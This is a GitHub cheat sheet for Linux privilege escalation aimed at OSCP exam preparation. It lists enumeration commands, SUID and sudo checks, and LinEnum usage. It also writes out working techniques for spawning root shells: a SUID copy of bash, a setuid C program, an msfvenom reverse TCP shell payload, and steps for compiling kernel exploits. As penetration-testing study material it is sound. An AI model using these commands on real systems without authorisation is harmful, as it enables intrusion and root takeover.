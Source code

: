 # OSCP Linux Privilege Escalation Cheat Sheet

Created by mr-b4rt0wsk1 on 07/01/2020

Edited with major additions on 07/01/2021

## What to look for

* Kernel Exploits - Last resort
* Service Exploits
    * Port Forwarding
* Weak File Permissions
    * /etc/passwd and /etc/shadow
    * Backups
* sudo
    * Known Password
    * Shell Escape Sequences
    * Abusing Intended Functionality
    * Environment Variables
        * LD_PRELOAD
        * LD_LIBRARY_PATH
* Cron Jobs
    * File Permissions
    * PATH Environment Variable
    * Wildcards
* SUID/SGID Files
    * Shell Escape Sequences
    * Known Exploits
    * Shared Object Injection
    * PATH Environment Variable
* Abusing Shell Features (older versions)
* Passwords and Keys
    * History Files
    * Config Files
    * SSH Keys
* NFS
    * no_root_squash
* Browse Directories
* /home, /opt, /var, /tmp

## Enumeration and Privilege Escalation Strategy

1. Manual Enumeration

    ### Basic

    * `whoami` - get current user
    * `id` - get the current user's user ID, group ID, and other information
    * `hostname` - get current computer name
    * `uname -ar` - get OS/kernel information
    * `cat /etc/issue`, `cat /etc/lsb-release`, `cat /etc/redhat-release` - get distribution type and version
    * `cat /proc/version` - get kernel verions and details
    * `ps aux` - shows proccess running for all users and additional information on them
    * `ps aux | grep "^root"` - only shows processes owned by root
    * `cat /etc/passwd` - can show what users exist on the computer
    * `crontab -l` - lists cron jobs for the current user
    * `cat /etc/crontab` - view system wide cron jobs
    * `sudo -l` - check for sudoer permissions

    ### Check for Interesting Software

    These directories tend to have interesting software:
    * `ls -lrta /opt`
    * `ls -lrta /var`
    * `ls -lrta /home`
    * `ls -lrta /tmp`
    * `ls -lrta /usr/local`
    * `ls -lrta /usr/local/src`
    * `ls -lrta /usr/local/bin`
    * `ls -lrta /usr/src`
    Enumerating program versions:
    * `<program> --version`
    * `<program> -v`
    * Debian: `dpkg -l | grep <program>`
    * Systems with rpm: `rpm -qa | grep <program>`

    ### File Permissions

    * `find / -perm -u=s -type f 2>/dev/null` - finds files with SUID set
    * `find / -perm -g=s -type f 2>/dev/null` - finds files with SGID set
    * `find / -perm -2 -type f 2>/dev/null` - finds world writable files
    * `ls -lrta *file*` - shows file permission details like user, group, SUID bit, etc. of a particular file
    * `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null` - find files with the SUID or SGID bit set and print out the path and the permissions

    ### Networking

    * `netstat -ano` - look at TCP/UDP connections and listening ports, as well as what process is associated with them
    * `ifconfig -a` - get networking information for the current computer
    * `iptables -L` - look at firewall rules
    * `arp -e` - check the ARP cache
    * `route` - check for cached IP and/or MAC addresses
    * `showmount -e <target IP>` - (run from attacker machine) will show the server's export list

2. Priv Esc Scripts

    ### LinEnum

    * `./LinEnum.sh` - basic run of the tool
    * Can copy files for export and serach for files containing a keyword
        * `mkdir export`
        * `./LinEnum.sh -k password -e export -t` - runs search with "password" keyword and thorough tests

    ### linux-smart-enumeration

    * `./lse.sh` - basic run of the tool
    * `./lse.sh -l 1 -i` - interesting results, doesn't prompt for user's password
    * `./lse.sh -l 2 -i` - shows all results, doesn't prompt for user's password

## Other

### Spawning Root Shells

* "rootbash" SUID
    * `cp /bin/bash /tmp/rootbash` - copy the bash binary
    * `chmod +s /tmp/rootbash` - make sure the SUID bit is set
    * `/tmp/rootbash -p` - run for a root shell

* Custom executable
    * If a root process executes another process that you can control, then you can compile this and use it to spawn a bash shell as root instead

    ```C
    int main() {
        setuid(0);
        system("/bin/bash -p");
    }
    ```

    * Compile with this command: `gcc -o <name> <filename.c>`

* msfvenom
    * `msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf`
    *  This can be caught using netcat or Metasploit's multi/handler

### Taking Advantage of lxd Group Permissions

* if the user is in the lxd group, they can read files on the filesystem as root
* this requires to download the alpine-builder, which should already be on your Kali machine
* full walkthrough on what commands to execute [here](https://www.hackingarticles.in/lxd-privilege-escalation/)

### Taking Advantage of Docker Group Permissions

* similar to lxd, if the user is in the docker group, they can read files on the filesystem as root
* full walkthrough on what commands to execute [here](https://root4loot.com/post/docker-privilege-escalation/)
* check out [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell) as well
    * I can't remember if I had to install any alpine files for the lab.  I think GTFOBins one-liner just worked

### Kernel Exploits - Compiling Executables for Linux

* `/usr/share/linux-exploit-suggester/linux-exploit-suggester.sh -k 2.6.32` - useful tool for finding exploits based on the provided kernel version
* `gcc -o priv_esc64 exploit.c` - this is the simple way for 64-bit
* `gcc -m32 -o priv_esc32 18411.c` - this is the simple way for 32-bit. Example used is EDB #18411
* `gcc -Wl,--hash-style=both -m32 -o priv_esc32 9542.c` - some will require both hash styles. Example used is EDB #9542

### Port Forwarding

* `ssh -R 4444:127.0.0.1:3306 kali@192.168.221.129` - port forwarding example done via SSH

## Resources
* g0tmi1k's [blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* Privilege Escalation [gitbook](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)
* LinEnum [repo](https://github.com/rebootuser/LinEnum)
* linux-smart-enumeration [repo](https://github.com/diego-treitos/linux-smart-enumeration)
* lpeworkshop [repo](https://github.com/sagishahar/lpeworkshop)
* Tib3rius' Linux Privilege Escalation for OSCP & Beyond! [course](https://courses.tib3rius.com/p/linux-privilege-escalation-for-oscp-beyond)